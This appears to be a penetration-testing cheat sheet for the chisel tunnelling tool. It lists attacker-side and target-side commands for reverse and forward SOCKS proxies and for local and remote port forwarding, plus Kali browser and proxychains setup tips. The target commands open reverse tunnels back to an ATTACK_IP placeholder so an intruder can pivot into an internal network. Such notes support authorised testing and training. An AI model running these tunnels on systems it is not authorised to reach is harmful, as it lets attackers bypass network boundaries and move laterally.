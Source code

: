 ### Chisel client/server --help

### Author: https://github.com/jpillora/chisel/releases

### Reverse SOCKS proxy

 - Attacker:

       ./chisel server -p LISTENING_PORT --reverse &

 - Target:

       ./chisel client ATTACK_IP:LISTEN_PORT R:0.0.0.0:1080:SOCKS &

 - Attacker:

       ./chisel client ATTACK_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT

 - Target:

       ./chisel server -p TARGET_PORT --socks5

### Then open the web browser in Kali and configure the proxy settings.

#### 1) Go to "Manual Proxy configuration"

#### 2) On "SOCKS Host", add 127.0.0.1 on port 1080 and click the SOCKS5 radio button

#### 3) On "No proxy for", add 127.0.0.1

#### 4) On browser, connect to our target IP

### Forward SOCKS proxy

 - Target:

       ./chisel server -p LISTEN_PORT --socks5

 - Attacker:


       ./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks

## TIP


#### Set the port in the proxychains file. (SOCKS5)

#### If you use forward proxy, set the port to whichever one you opened.

### Local Port Forward

 - Target:

       ./chisel server -p LISTEN_PORT

 - Attacker:

       ./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT

### Remote Port Forward

 - Attacker:

       ./chisel server -p LISTEN_PORT --reverse &

 - Target:

       ./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &

### Then on our machine, we browse to 

    http://127.0.0.1:TARGET_LOCAL_PORT


## TIP


#### Also use jobs then kill %num for chisel background processes too.

#### And use proxychains on your attacking machine
